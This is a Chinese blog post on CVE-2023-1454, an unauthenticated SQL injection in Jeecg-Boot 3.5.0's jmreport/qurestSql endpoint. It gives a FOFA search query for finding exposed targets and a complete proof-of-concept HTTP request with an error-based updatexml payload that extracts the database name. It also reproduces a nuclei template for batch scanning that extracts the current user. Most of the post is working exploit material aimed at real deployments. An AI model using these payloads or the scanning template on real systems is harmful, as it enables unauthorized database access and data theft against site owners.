

# Jeecg-Boot 存在前台 SQL 注入漏洞 CVE-2023-1454 - 学安全的小白 - 博客园

> 原文：[`www.cnblogs.com/pursue-security/p/17665490.html`](https://www.cnblogs.com/pursue-security/p/17665490.html)

## Jeecg-boot 简介

jeecgBoot 是一款基于 BPM 的低代码平台！前后端分离架构 SpringBoot 2.x，SpringCloud，Ant Design&Vue，Mybatis-plus，Shiro，JWT，支持微服务。强大的代码生成器让前后端代码一键生成，实现低代码开发！ JeecgBoot 引领新低代码开发模式 OnlineCoding-> 代码生成器-> 手工 MERGE， 帮助 Java 项目解决 70%的重复工作，让开发更多关注业务，既能快速提高效率，节省研发成本，同时又不失灵活性！一系列低代码能力：Online 表单、Online 报表、Online 图表、表单设计、流程设计、报表设计、大屏设计 等等

## 漏洞描述

jeecg-boot 3.5.0 版本存在 SQL 注入漏洞，该漏洞源于文件 jmreport/qurestSql 存在安全问题， 通过参数 apiSelectId 导致 SQL 注入。
CVE-2023-1454
CNNVD-202303-1399

## 影响版本

Jeecg-Boot 3.5.0 版本

## 漏洞复现

使用 fofa 搜索复现环境：`body="jeecg-boot"`
通过 f12 查看源代码可以看到 jeecg-boot 字样。
直接以 get 方式请求存在漏洞的路径，出现一下报错即可能存在该漏洞

POC：

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Host: 
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 126

{"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select database())),1)) or '%%' like '"} 
```



## nuclei 批量 yaml 文件

nuclei 自带了该漏洞的 yaml 文件，文件名为：CVE-2023-1454.yaml

```
id: CVE-2023-1454

info:
  name: Jeecg-boot 3.5.0 qurestSql - SQL Injection
  author: DhiyaneshDK
  severity: critical
  description: |
    A vulnerability classified as critical has been found in jeecg-boot 3.5.0\. This affects an unknown part of the file jmreport/qurestSql. The manipulation of the argument apiSelectId leads to sql injection. It is possible to initiate the attack remotely.
  reference:
    - https://github.com/Sweelg/CVE-2023-1454-Jeecg-Boot-qurestSql-SQLvuln/tree/master
    - https://nvd.nist.gov/vuln/detail/CVE-2023-1454
    - https://vuldb.com/?ctiid.223299
    - https://vuldb.com/?id.223299
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2023-1454
    cwe-id: CWE-89
    epss-score: 0.03351
    cpe: cpe:2.3:a:jeecg:jeecg-boot:3.5.0:*:*:*:*:*:*:*
  metadata:
    max-request: 1
    verified: "true"
    shodan-query: http.favicon.hash:1380908726
    vendor: jeecg
    product: jeecg-boot
  tags: cve,cve2023,jeecg,sqli

http:
  - raw:
      - |
        POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8

        {"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "SQLException"
          - "XPATH syntax error:"
        condition: and

      - type: word
        part: header
        words:
          - application/json

      - type: status
        status:
          - 200

    extractors:
      - type: regex
        group: 1
        regex:
          - "XPATH syntax error: '([a-z_@%]+)'"
          - "XPATH syntax error: '([a-z- @%]+)'"
          - "XPATH syntax error: '([a-z@%0-9.]+)'"
        part: body 
```